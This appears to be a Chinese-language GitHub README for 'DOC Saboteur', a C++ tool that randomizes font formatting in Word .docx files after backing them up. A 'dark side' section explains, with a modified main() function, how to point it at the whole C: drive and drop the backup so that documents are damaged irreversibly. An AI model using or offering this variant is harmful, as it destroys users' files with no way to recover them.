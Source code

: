# DOC Saboteur

## 简介

DOC Saboteur 是一个有趣且实用的工具，专门设计用于随机化Word文档(`*.docx`)的格式属性，包括`字体大小`、`字体颜色`、`字体加粗`和`字体倾斜`。这个工具非常适合需要测试文档处理软件对不同格式容错能力的开发者，或者任何对Word文档格式随机化感兴趣的用户。

## 功能

- **格式属性随机化**：自动扫描程序根目录(或指定目录)下的所有Word文档(`*.docx`)，并对每个文件的文本格式进行随机化处理.
- **文件处理**：
  - **不支持中文文件名**：程序将自动检测中文文件名并重命名为非中文字符串，以保证处理过程无误。
  - **自动备份**：在进行任何修改前，自动将源文件备份到C盘的`doc_saboteur_backup`目录下，确保原数据安全。

## 使用指南

1. 将Word文档(`*.docx`)放入程序根目录下(默认配置)。
2. 运行DOC Saboteur程序。
3. 程序会自动扫描根目录下的所有Word文档，并进行格式随机化处理。
4. 处理完成后，可以在程序根目录下找到被修改的文档。
5. 原始文件将被安全备份到C盘的`doc_saboteur_backup`目录下。

## 注意事项

1. 确保C盘的`doc_saboteur_backup`目录存在且有足够的空间存储备份文件。
2. 程序目前不支持直接处理文件名为中文的文档，但会自动进行重命名处理。
3. 在使用本程序时，请确保你有足够的权限访问和修改指定目录下的文件。

## 代码编译环境
**系统环境**: `Windows10-x64`; `Visual Studio 2022`; `C++17`; 

**所需的库**: `Pugixml`; `libzip`; `zlib`;

## 黑暗面
你只需修改`main()`函数中的两行代码就能使它变成一个非常恶意的程序.
1. 修改`std::vector<std::string> file_list = op.find_docx_files("./");`代码,`op.find_docx_files("./")`中的`"./"`表示程序根目录,你可以将其改为某个盘符,例如`C:/`,这样程序会遍历查找并破坏C盘下的所有的`*.docx`文件.
1. 将`if (op.copy_file(*iter, "C:/doc_saboteur_backup/" + *iter) == true)`注释掉,这行代码的作用是在破坏文档前将其备份到`C:/doc_saboteur_backup/`中,如果注释掉则程序不会备份文档,那么对您的文档的破坏将不可逆!!!

####  以下是一个示例:

```c++
int main() {
    std::cout << "DOC Saboteur - v0.1;\nPowered by RMSHE - 2024.03.15;\n" << std::endl;

    try {
        std::vector<std::string> file_list = op.find_docx_files("C:/");
        for (auto iter = file_list.begin(); iter != file_list.end(); ++iter) {
                std::filesystem::path _docxPath_ = op.renameIfChinese(*iter);

                // 转换为 std::string
                std::string docxPathString = _docxPath_.string();

                // 获取 const char* 类型
                const char *docxPath = docxPathString.c_str();
                const char *docXmlPath = "word/document.xml";

                std::cout << docxPath << std::endl;

                std::string xmlContent = op.readZipFile(docxPath, docXmlPath);

                // 随机化处理
                std::string modifiedXml = randomizeFontPropertiesEnhanced(xmlContent);
                op.writeZipFile(docxPath, docXmlPath, modifiedXml);

                std::cout << "文档处理完成:" + *iter << std::endl;
            }
    } catch (const std::exception &e) {
        std::cerr << "发生错误: " << e.what() << std::endl;

        system("pause");
        return 1;
    }

    system("pause");
    return 0;
}
```

